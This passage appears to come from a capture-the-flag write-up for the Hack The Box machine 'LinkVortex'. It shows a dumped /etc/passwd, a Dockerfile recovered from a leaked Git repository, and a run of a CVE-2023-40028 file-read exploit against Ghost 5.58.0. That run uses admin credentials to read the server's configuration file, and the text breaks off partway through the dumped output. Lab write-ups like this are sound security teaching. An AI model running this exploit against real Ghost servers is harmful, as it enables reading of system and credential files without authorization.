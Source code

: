 ```bash
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
Successfully read /etc/passwd
```

The **GitHack** also found a `Dockerfile` in the leak.

```bash
[root@kali] /home/kali/LinkVortex/GitHack/dev.linkvortex.htb (master) ⚡
❯ cat Dockerfile.ghost
FROM ghost:5.58.0
# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json
# Prevent installing packages
RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb
# Wait for the db to be ready first
COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
COPY entry.sh /entry.sh
RUN chmod +x /var/lib/ghost/wait-for-it.sh
RUN chmod +x /entry.sh
ENTRYPOINT ["/entry.sh"]
CMD ["node", "current/index.js"]
```

Trying to read the `/var/lib/ghost/config.production.json` configuration file:

```bash
[root@kali] /home/kali/LinkVortex/CVE-2023-40028 (master) ⚡
❯ ./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
```